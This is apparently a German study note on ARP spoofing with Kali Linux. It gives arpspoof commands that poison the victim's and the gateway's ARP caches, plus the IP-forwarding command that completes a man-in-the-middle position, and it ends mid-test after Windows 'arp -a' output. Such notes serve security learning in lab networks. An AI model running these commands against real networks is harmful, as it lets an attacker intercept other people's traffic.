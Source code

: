## Kali Linux Tool für ARP Spoofing

Schickt einen ARP Response an das Opfer (`10.0.2.7`). Spooft die eigene MAC Adresse mit der IP des Gateways (`10.0.2.1`). 

```sh
$ arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
# arpspoof -i <interface> -t <target-victim-ip> <router-ip>
```

Das Programm wird nicht gleich beendet sondern schickt ständig ARP Responses

Herausfinden des router (=default gateway)

```sh
$ route -n
```

Folgendes gaukelt dem Gateway vor wir sind das Opfer (Schickt einen ARP Response an das Gateway):

```sh
$ arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

Nach diesen 2 `arpspoof` Aufrufen sind die ARP Caches vom Opfer und vom Gateway kompromitiert.

Ein Linux System schickt allerdings nicht von Haus aus IP Pakete die nicht an dieses selbst adressiert sind weiter (ist kein Router). Daher  ist noch "IP forwarding" notwendig um den Datentransfer zwischen Victim und Gateway über Hacker weiterzuleiten [[*](https://linuxconfig.org/how-to-turn-on-off-ip-forwarding-in-linux)]:

```sh
# auf Hacker
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Anmerkung: Im Video fehlt `net/` im Pfad.

### Test im Heimnetz:

Windows VM:

```sh
C:\Users\test>arp -a

Schnittstelle: 192.168.178.75 --- 0xc
  Internetadresse       Physische Adresse     Typ
  192.168.178.1         e0-28-6d-7b-fa-91     dynamisch
  192.168.178.255       ff-ff-ff-ff-ff-ff     statisch
  224.0.0.22            01-00-5e-00-00-16     statisch
  224.0.0.251           01-00-5e-00-00-fb     statisch
  224.0.0.252           01-00-5e-00-00-fc     statisch
  239.255.255.250       01-00-5e-7f-ff-fa     statisch
  255.255.255.255       ff-ff-ff-ff-ff-ff     statisch
```

Kali VM:
